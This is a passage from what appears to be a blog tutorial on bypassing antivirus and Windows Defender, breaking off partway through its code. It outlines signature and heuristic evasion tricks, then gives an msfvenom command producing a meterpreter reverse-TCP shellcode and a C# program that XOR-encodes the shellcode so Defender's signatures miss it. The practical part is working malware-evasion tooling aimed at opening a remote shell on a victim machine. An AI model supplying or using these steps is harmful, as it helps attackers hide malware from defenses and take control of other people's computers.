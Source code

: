 
### 1.1  Bypassing Antivirus Signature Detection

- One of the fundamental ways to bypass antivirus signature detection is to write custom code. By creating your own custom code, we can avoid detection based on known signatures. Moreover, when dealing with shellcode injection, employing custom encryption and decryption becomes crucial to evade antivirus scrutiny effectively.


### 1.2  Bypassing Antivirus Heuristic Detection:

- **Time Delay Bypass Techniques:**
    When an application runs in a emulator and encounters a pause or sleep instruction, the heuristics engine fast-forwards through the delay to accelerate the scanning process and avoid unnecessary wait times.

- **Non-Emulated APIs:**
    Antivirus emulator engines simulate the execution of common executable file formats and functions, leaving room for evasion by utilizing non-emulated APIs. Attackers can test various APIs against the antivirus engine to identify those that are incorrectly emulated or not emulated at all.


## 2. Bypassing Windows defender - The practical part.  

We need to bypass Windows Defender's signature-based detection and behavioral analysis.

### 2.1  Bypassing signature based detection.

Even after crafting our custom code, [process hollowing with c#](https://el-5heikh.github.io/In-Memory-Code-Injection-1/), it still contains certain signatures recognized by antivirus solutions due to the meterpreter shell. Our aim in this blog is to encode the meterpreter shell to circumvent this issue. One of the simplest approaches to achieve this is by utilizing XOR.

First, generate your basic shell code using the command below.

```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={YOUR-IP-ADDRESS} LPORT={YOUR LISTENING PORT} EXITFUNC=thread -f csharp
```
Second, use the following script to encode the shell

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace XOR_Encode
{
    internal class Program
    {
        public static void Main(string[] args)
        {
            byte[] buf = new byte[511] {0xfc,0x48,0x83,0xe4,0xf0,0xe8}; //Replace with your shellcode

            // Encode the payload with XOR (fixed key)
            byte[] encoded = new byte[buf.Length];
            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)((uint)buf[i] ^ 0xda);
            }

            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            int totalCount = encoded.Length;
            for (int count = 0; count < totalCount; count++)
```